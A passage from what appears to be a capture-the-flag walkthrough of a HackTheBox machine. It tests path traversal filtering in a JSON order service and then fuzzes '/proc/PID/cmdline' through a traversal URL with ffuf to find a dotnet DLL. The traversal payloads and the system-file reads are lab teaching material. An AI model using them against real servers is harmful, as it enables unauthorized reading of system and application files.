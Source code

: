 
It returns `orders.txt`. That implies that the `../` got removed. This seems
to confirm:

It’s not uncommon in PHP that sending something like `....//` gets filtered
down to `../` when the inner `../` is removed. That doesn’t work here:

    
    
    > {"ReadOrder":"....//orders.txt"}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "2:17:45",
      "RemoveOrder": null,
      "WriteOrder": null,
      "ReadOrder": "0xdf was here"
    }
    

I would expect a not found if the `../` got through. It seems that all `..`
and `/` are removed. That is confirmed by this:

    
    
    > {"ReadOrder":"o..rd/er..s//.txt"}
    < {
      "UserId": 0,
      "Session": "Unauthorized",
      "Time": "7:12:15",
      "RemoveOrder": null,
      "WriteOrder": null,
      "ReadOrder": "0xdf was here"
    }
    

When the `..` and `/` are removed, it leaves `orders.txt`.

### Get bagel.dll

#### Strategy

I’d like to find what is running the service on 5000 just like I did for 8000.
The comment in the source said to run it with `dotnet <dll>`. I’ll use `ffuf`
to scan over a range of pids, and `-mr dotnet` to match results that have
“dotnet” in them. With the command line to the process running `dotnet`, I’ll
either get the full path to the dll, or I’ll get a relative path, which is
still good enough (as I can then use the `cwd` symlink in `/proc/[pid]` to get
into that directory and get the file).

#### Fuzz

`ffuf` doesn’t have a `range` generation like `wfuzz`, but I can use `<( seq 1
10000)` to make a temp file with the numbers 1 to 10000 in it one per line.

    
    
    oxdf@hacky$ ffuf -u http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline -w <(seq 1 10000) -mr 'dotnet'
    